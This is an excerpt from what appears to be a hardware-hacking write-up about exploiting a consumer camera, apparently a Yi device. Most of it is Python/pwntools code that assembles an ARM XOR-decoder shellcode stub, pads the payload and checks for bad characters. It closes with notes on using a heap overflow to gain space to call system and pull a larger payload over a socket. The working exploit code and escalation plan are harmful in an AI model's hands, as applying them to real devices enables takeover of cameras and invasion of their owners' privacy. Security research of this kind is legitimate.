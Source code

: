 ```
	@ r6: Address of the input array
	@ r7: Current position
	@ r8: Key for XOR operation

	xor_decode:
		ldmia sp!,{{r3, r4, r5, r6, r7, r8}}
		mov r1, #{hex(len(payload_assembled_bytes))}
		mov r8, #{hex(key)}
		mov r7, r1
	loop:
		ldrb r4, [r6], #1 @ Load byte from input array and increment pointer
		eor r4, r4, r8 @ XOR with the key
		strb r4, [r6, #-1] @ Store the result back in the array (decrementing pointer)
		subs r7, r7, #1 @ Decrement loop counter
		sub r2, r7, #1 @ Subtract 1 from loop counter and check if result is positive or zero
		bpl loop @ If positive or zero, repeat the loop
	sleep:
		mov r5,#0x5
		stmdb sp!,{{r5,lr}}
		ldmia sp!,{{r0,lr}}
		add sp,sp,#0x1000
		blx r3
	"""

	# Assemble the ARM code
	decoder_assembled = asm(decoder_asm, arch='arm')

	# Print the assembled machine code
	decoder_assembled_bytes = bytes.fromhex(decoder_assembled.hex())
	info("Decoder:")
	info(get_hexdump(decoder_assembled_bytes))

	# build payload
	payload = decoder_assembled_bytes + payload_assembled_bytes
	payload += (target_length - len(payload)) * b'\x41'

	info("Constructed payload:")
	info(get_hexdump(payload))

	if ((0xa in payload) or (0x0 in payload)):
		info("BAD CHARS!!!! Needs a reboot :'(")

	return payload
```

I only have space for a very small payload at the moment due to the 128 byte limitation we have. The payload turns on the light of the camera, sleeps for 16 seconds, then crashes - very sophisticated.

If I want to extend the payload, there is some space in the **g_hw_config** structure, and due to the heap overflow, we can also overwrite the empty **yi_oss_s** structure - this would give us about 100 more bytes, which would definitely be enough to call **system**, and probably also enough to turn the hotspot back on and receive a larger payload over a socket. 

